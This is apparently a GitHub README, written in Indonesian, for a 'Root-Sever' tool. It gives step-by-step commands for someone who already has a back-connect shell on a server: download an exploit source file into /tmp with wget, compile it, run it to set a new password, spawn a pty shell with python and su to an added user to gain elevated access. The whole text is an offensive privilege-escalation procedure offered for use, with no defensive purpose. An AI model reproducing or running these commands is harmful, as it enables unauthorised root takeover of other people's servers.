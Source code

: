# Root-Sever
sebelum pakai pastikan backconect terlebih dahulu
lalu compile file nya 
# comand nya
cd /tmp
<br>
mkdir demon
<br>
cd demon
<br>
wget https://raw.githubusercontent.com/ganest-seven/Root-Sever/main/root1.c 
<br>
gcc -pthread root1.c -o g7 -lcrypt
<br>
chmod +x g7
<br>
./g7
<br>
lalu buat password baru dan tunggu proses selsai (agak lama)
<br>
id ganestseven
<br>
python -c 'import pty; pty.spawn("/bin/sh")'
<br>
su ganestseven
<br>
lalu id lagi
<br>

